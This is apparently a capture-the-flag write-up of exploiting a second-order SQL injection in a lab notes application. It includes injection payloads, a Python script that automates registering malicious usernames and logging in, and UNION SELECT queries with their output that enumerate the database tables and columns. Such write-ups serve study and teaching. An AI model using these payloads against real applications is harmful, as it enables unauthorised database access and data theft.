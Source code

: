 Visiting the web page we're greeted by a login screen.

![](https://image.ibb.co/my9fDm/1.png)

A quick pass with some common SQL injection commands and run with SQLMAP yields nothing, and the same is found with the register page.

![](https://image.ibb.co/ciNdzR/2.png)

However, if we then login with a registered user testing an sql injection, such as a single quotation mark `'`, we're greeted by an SQL error.  

![](https://image.ibb.co/k0aFeR/3.png)

So rather than a standard SQL injection, we have what's known as a second-order SQL injection.  This is an SQL injection where the actual injection ocurrs on a different page to the one where the query is inserted.  Effectively, the notes application is vulnerable to an SQL injection by a username, so we have to register a user, login and then visit the notes page.

### SQL Injection

Using an injection of the form `') OR 1=1 LIMIT 1 #` results in us returning the notes of the admin user: 

![](https://image.ibb.co/doGctm/4.png)

If you're wondering why we do the `LIMIT 0,1` at the end, it's because traditionally these login forms expect only a single user, whilst a `' OR 1=1` injection will return every user.  The `LIMIT` statement at the end effectively trims the results down to a single user.

Since registering and logging in is quite tedious, I wrote a short script to allow myself to easily query the database:

```python 
from requests import Session 
import BeautifulSoup  

def register(s, user, passw): 
    s.post("http://10.10.10.66/register.php", data={"user":user, "pass":passw, "register":"Register"}) 

def login(s, user, passw): 
    x = s.post("http://10.10.10.66/index.php", data={"user":user, "pass":passw, "login":"Login"}) 
    soup = BeautifulSoup.BeautifulSoup(x.text) 
    print soup.findAll("div", attrs={'class':'notes'}) 

while True: 
    sess = Session() 
    username = raw_input("Username:") 
    register(sess, username, username) 
    login(sess, username, username) 
``` 
Using this we first query the table names and databases.  Here I will show the injection followed by it's result:
``` 
') UNION SELECT table_name, table_schema FROM information_schema.columns # 
[u'notes', u'notes'] 
[u'users', u'notes'] 
[u'configs', u'sysadmin'] 
[u'users', u'sysadmin'] 
``` 
We then query the names of the individual columns for each table:
``` 
') UNION SELECT table_name, column_name FROM information_schema.columns # 
[u'notes', u'id'] 
[u'notes', u'user'] 
[u'notes', u'title'] 
```